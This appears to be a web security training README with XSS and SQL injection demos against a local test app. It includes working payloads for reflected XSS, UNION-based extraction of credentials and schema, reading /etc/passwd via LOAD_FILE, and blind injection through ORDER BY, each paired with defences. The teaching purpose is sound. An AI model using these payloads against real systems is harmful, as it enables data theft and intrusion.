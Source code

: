 >_'Focus on attacks to know how to protect'_

What is security?
- Confidentiality - no stolen data
- Integrity - no corrupt data
- Availability - no DoS

http://www.owasp.org - security wiki/community

https://www.exploit-db.com/ - attack wiki/community

# Client Side

## GET and POST
Should accept only relevant parameters
- if GET accepts POST params - allows to hide values, send more data, bypass firewalls
- if POST accepts GET params - easier CSRF

## Input Data
Whole HTTP request including headers, imported files, file names etc.

TODO: if Apache access logs are publicly visible, then it is possible to inject JS via User-Agent

## Input Data Validation
1. Client-side - usability
2. Server-side - validation

Invalid input means:
- insufficient client-side check or
- hacker

## Input manipulation tools
- Burp Suite
- Tamper data FF plugin
etc.

## Web Content Injection - typically named XSS
1. USER enters some data (e.g. username/password)
2. CLIENT sends HTTP REQUEST to SERVER
3. Server creates HTTP RESPONSE and sends it to CLIENT
4. CLIENT renders data that comes from SERVER
  - renders HTML
  - loads content, e.g. ```<img> <iframe> <script> <style>```
  - executes Javascript
5. USER enters some data and modifies DOM CLIENT-side
  e.g. $('div').innerHtml = <script>alert(1)</script>

### HTML injection
```html
<input value="user-input" />
<input value=user-input /> <!--HTML5-->
```
### DEMO
http://localhost:8080/search

- When query is entered it is reflected back by server
- How to detect hole? Search for: `test ' " < > <tag>`
- check 'View source' not 'Inspect' to find broken HTML
- `" autofocus onfocus="alert(1)"`
- chrome detects XSS attack vector - what about safari, firefox
- TODO: what about escaping html, so that detection does not help?

```html
alert(1) == &#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```

#### Wrong Content-Type
http://localhost:8080/rest/partner

What if partner can change his name?
http://localhost:8080/rest/partner?name=abc

#### "I use well-known templating framework and it will do the work"

Spring Boot App + Freemarker

http://freemarker.org/docs/pgui_config_outputformatsautoesc.html

> _By default, templates have "undefined" output format associated, which does no escaping, and in general gives the behavior that you would expect from a template engine that doesn't care about output formats and escaping._

```java
configuration.setOutputFormat(HTMLOutputFormat.INSTANCE);
```

### Javascript injection

//? $.getJSON

//x-content-type-options: nosniff

### URL manipulation

## Cookies
## Sessions
## Request Forgery
## UI redress attacks

## Server Side

## Business logic flaws
## Google hacking
## File handling

## SQL injection

### DEMO: SELECT
http://localhost:8080/sql/search
- `' OR 1=1`
- `' OR 1=1 #`

#### How many columns there are?
- `' UNION SELECT 1 #`
- `' UNION SELECT 1,2 #`
- etc.

#### Useful info
```sql
SELECT DATABASE(), USER(), SERVER()
```
`' UNION SELECT 1, USER(), 3 #`

#### Database structure
E.g. MySQL
```sql
SELECT * FROM INFORMATION_SCHEMA.COLUMNS
```
`' UNION SELECT 1, CONCAT(TABLE_SCHEMA,',',TABLE_NAME,',',COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS #`

#### User table
`' UNION SELECT 1, CONCAT(USERNAME,',',PASSWORD), 3` FROM USERS #

#### Read files
`' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3 #`

DEFENCE: 

- do not use `root` MySQL database user with access to all files in your machine
- avoid `GRANT ALL PRIVILEGES` as it contains `FILE` privilege

> FILE - Enable the user to cause the server to read or write files. Level: Global.`
http://dev.mysql.com/doc/refman/5.7/en/grant.html

#### DEFENCE - Prepared statements

```java
  PreparedStatement updateSales = con.prepareStatement(
      "SELECT * FROM products WHERE name like ?");
  updateSales.setString(1, "%"+query+"%");
```

What about searching: `%`

### DEMO: UPDATE

### DEMO: ORDER BY

```java
PreparedStatement updateSales = con.prepareStatement(
          "SELECT * FROM products ORDER BY ?");
      updateSales.setString(1, orderBy);
```

?

http://localhost:8080/sql/list?orderBy=price

`IF(1=1,price,name)`

#### DEFENCE
- Do not use user input in order by
- E.g. use enum that translates to "good" SQL

### DEMO: BLIND

`IF(1=1,price,name)` vs `IF(1=2,price,name)`

`IF(EXISTS(SELECT * FROM USERS WHERE USERNAME='admin'),price,name)`

http://localhost:8080/hack